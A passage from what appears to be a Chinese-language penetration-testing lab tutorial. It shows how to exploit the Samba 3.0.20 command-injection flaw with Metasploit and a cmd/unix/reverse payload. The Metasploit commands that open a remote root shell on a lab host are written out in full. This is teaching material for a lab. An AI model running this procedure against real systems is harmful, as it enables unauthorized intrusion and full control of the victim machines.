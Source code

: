 设置 payload 为 `cmd/unix/reverse` 类型，通过 telnet 创建远程 Shell：

```
msf > set payload cmd/unix/reverse
```

查看当前的配置参数，这里会列出当前我们要使用的攻击模块和 payload 的相关参数，包括攻击的目标地址，攻击的目标端口以及后门 Shell 监听的端口号等：

```
msf > show options
```

参数列表截图：

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430349262.png/wm)

补充设置参数，需要设置攻击目标和攻击机本地的 IP 地址，再次查看先前的扫描结果，Samba 3.0.20 监听在 445 端口上，所以我们需要修改攻击的端口号：

```
msf > set RHOST 192.168.122.102
msf > set LHOST 192.168.122.101
msf > set RPORT 445
```

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430357904.png/wm)

设置完成后再次查看配置参数：

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430365432.png/wm)

### 9.4 执行攻击

执行攻击比较简单，只需要输入 `exploit` 命令就可以了：

```
msf > exploit
```

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430374329.png/wm)

根据输出的信息可以看出我们已经攻击成功建立并连接到了 Shell。


### 9.5 验证是否攻击成功

首先在 Shell 中输入 `whoami` 判断当前的身份，然后查看当前的主机名：

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430382789.png/wm)

很高兴我们在目标主机获得了 root 权限，可以做很多的事情，比如写入一些信息到某些文件，查看某些文件的内容等等。可以发挥你的想象力尝试更多的操作。

## 10. 总结


本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

1. 渗透测试的基本流程
2. 启动实验环境
3. 使用 Kali 进行漏洞扫描
4. 分析 Samba 远程命令注入漏洞
5. 使用 Metasploit 渗透攻击 Samba 漏洞
6. 获取远程的 Shell

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 11. 作业

按照实验步骤中的扫描结果，根据 Samba 版本号搜索 Samba 服务是否还具有其他的漏洞？这些漏洞是否可以被利用进行攻击获取远程的 Shell？


